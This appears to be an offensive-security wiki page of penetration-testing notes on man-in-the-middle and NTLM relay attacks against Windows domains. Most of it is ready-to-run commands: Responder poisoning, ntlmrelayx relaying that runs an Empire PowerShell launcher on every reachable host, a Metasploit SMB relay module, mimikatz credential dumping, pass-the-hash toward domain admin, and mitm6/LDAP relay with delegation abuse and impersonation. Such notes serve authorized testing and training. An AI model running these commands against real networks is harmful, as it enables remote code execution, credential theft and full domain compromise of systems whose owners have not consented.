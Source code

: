 # MitM & Relay



{% hint style="info" %}
#### For a full list of MitM techniques refer to [MitM & poisoning](broken-reference) section.
{% endhint %}

## <mark style="color:red;">RDP MitM</mark>

#### refer to[ this section](../../network-poisoning-mitm/rdp-downgrade.md) .

## <mark style="color:red;">MS08-068</mark>

{% embed url="https://www.rapid7.com/blog/post/2008/11/11/ms08-068-metasploit-and-smb-relay" %}

{% embed url="https://msrc-blog.microsoft.com/2008/11/11/ms08-068-smb-credential-reflection-defense" %}

### <mark style="color:orange;">Metasploit Module</mark>

```
use exploit/windows/smb/smb_relay 
# windows200 / windows server2008
```

## <mark style="color:red;">NTLM Relay</mark>

```
responder -I eth0 # disable smb & http
ntlmrelayx.py -tf targets.txt
```

## <mark style="color:red;">NTLM Relay + Empire</mark>

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://youtu.be/f9oMVoc2Umc" %}

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used. With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user(s) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

In a windows AD environment 9 times out of 10 all the workstations share the same local administrator password. You might be really lucky and both hosts and servers share the same local administrator password as well. At that point it becomes a discovery mission for where the domain admins are logged in.

Before we can do that we must generate a list of hosts in the domain suspectible to our attack. That is indicated by SMB-signing being disabled, which is default in most Windows OSs, except the Server.

Execute this from the CrackMapExec package:

```
cme smb <CIDR> --gen-relay-list targets.txt
```

Where the CIDR is your domain subnet. This generates a list of hosts which have SMB-signing disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one. Also important is the fact that you can't relay to the host the request orginated from.

### <mark style="color:orange;">Responder</mark>

{% embed url="https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning" %}

Responder does not pick up on FQDN queries, but it does pick up on NetBIOS and LLMNR, because Windows boxes are very chatty. When Windows boxes try to authenticate to things like file shares they default to NetBIOS for queries. This occurs with the use of NetNTLMv2 hashes.

Responder captures these NetNTLMv2 hashes. You can not pass the hash with these but you can crack them or you can relay them to other machines. This part will only explain how to run Responder and capture hashes.

**Start Responder**

```
Responder -I eth0 -wrf
```

Where -I is for interface and eth0 is your interface. The -wrf is optional, but -f is useful as it fingerprints the OS version. The other options are explained with -h.

To try this out in your lab, open explorer on a Windows machine and type `\\share\` in the address bar and wait for the credential prompt. This will trigger a name resolution request over SMB to find a resource using the current account's credentials. That should allow Responder to capture the NetNTLMv2 hash of the user making the request and print them in your terminal.

You can now crack the hashes using your favorite tool, but another alternative is relaying those hashes.

Now so far, Responder had set up an HTTP and SMB server to act as a middleman between the one requesting a resource and the file share. We now want to give our captured hashes to the tool NTLMrelay, so we edit `Responder.conf` to turn off the HTTP and SMB server.

After that is done, run Responder like before:

```
Responder -I eth0 -wrf
```



### <mark style="color:orange;">Empire</mark>

Now getting into Empire shouldn't be too hard if you are familiar with tools such as Metasploit. A short guide can be found [here](https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/).

Start up Empire, open a listener and create a so called stager, point it to your listener. The generated output is your payload. Note that this kind of output is normally picked up by antivirus in real environment.

```
./empire
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

### <mark style="color:orange;">NTLMrelay</mark>

Now perform the actual relaying using ntlmrelay from the Impacket library.

```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

### <mark style="color:orange;">Back to Empire</mark>

Now in my lab environment I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

* Trigger a few requests from the Windows machines using the `\\share\` trick.
* Restart all the tools.
* Reset Empire's database.
* Reboot the Windows machines.
* Execute the payload from cmd inside a Windows computer to check if it's actually working. (You should get an agent instantly).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA credentials in plaintext, because as previously explained Windows stores those in memory. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

> Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running Windows 7 and 8 I'll get the NTLM hash and plaintext credentials. If you're running Windows 8.1 and above I only get the NTLM hash.

What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT administrators used the same local administrator account on all workstations.

To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.

**Useful links:**

{% embed url="https://blog.stealthbits.com/lateral-movement-with-crackmapexec" %}

## <mark style="color:red;">NTLM/LDAP Relay + MitM6</mark>

```
mitm6 -i eth0 -d <domain>

ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```
